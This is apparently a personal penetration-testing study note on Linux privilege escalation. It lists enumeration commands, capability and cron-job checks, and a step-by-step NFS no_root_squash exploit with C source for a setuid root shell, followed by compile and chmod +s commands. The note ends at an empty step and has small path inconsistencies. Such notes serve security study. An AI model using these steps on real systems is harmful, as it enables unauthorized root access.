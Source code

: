 ```yaml
---
creation date: January 8th 2023
last modified date: January 8th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: [[Privilege Escalation]]
Search Tag: #📕  

# [[Linux Privilege Escalation]]  
___

## Description:  

## Enumeration
### Automated Tools
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

### Hostname
- `hostname`

### Kernel Information
- `uname -a`

### Target System Processes
- `cat /proc/version`

### Target OS Information
- `cat /etc/issue`

### Process Status
- `ps`
- `ps -A` = View all running processes

### Environmental Variables
- `env`

### List all root commands current user has
- `sudo -l`

## Capabilities
### Description
This is when a system admin increase the privilege level of a process or binary. This essentially means that rather than giving a user higher permission an admin can lower the requirements needed in order to allow a command to execute.

### List tools that were increased
- `getcap -r /`
- If unprivileged user then run: `getcap -r / 2>/dev/null`
	- This will throw all errors we will get into `/dev/null`

## Cron Jobs
### Description
These are set jobs timed to run at set intervals. They might running as root and be editable which is where we could have them do something like call out to a reverse shell.

### Locating
`cat /etc/crontab`

## NFS
### Description
Network File Share can be a good way to find shares possible with root access. This means rather than escalating our current user we could open a shell by adding a script.

### Locating
`cat /etc/exports`
We are looking for shares that have the **no_root_squash** option.  If this option is set on a share we can write to then we can add the executable.

### Exploiting
1. Once we have found shares we can write to and have the **no_root_squash**.
2. We need to mount the drive to our system so we can work on it.
3. `showmount -e 10.10.10.10`
	- This will list the exports of the NFS
4. `mkdir /tmp/backupofattackermachine`
5. `sudo mount -o rw 10.10.10.10:<LOCATION_OF_EXPORT> /tmp/backupofattackmachine`
	- This will mount the NFS to our tmp folder meaning it will be removed when we reboot our computer
6. Now we need to write and compile our executable a few example listed below:
```c
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

```c
#include<unistd.h>
void main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```
7. Once we create the file on our newly mounted drive we need to run a few more commands to get it ready
8. `gcc nfs.c -o nfs -w`
9. `chmod +s nfs`
10. 

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 8th 2023 (10:52 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
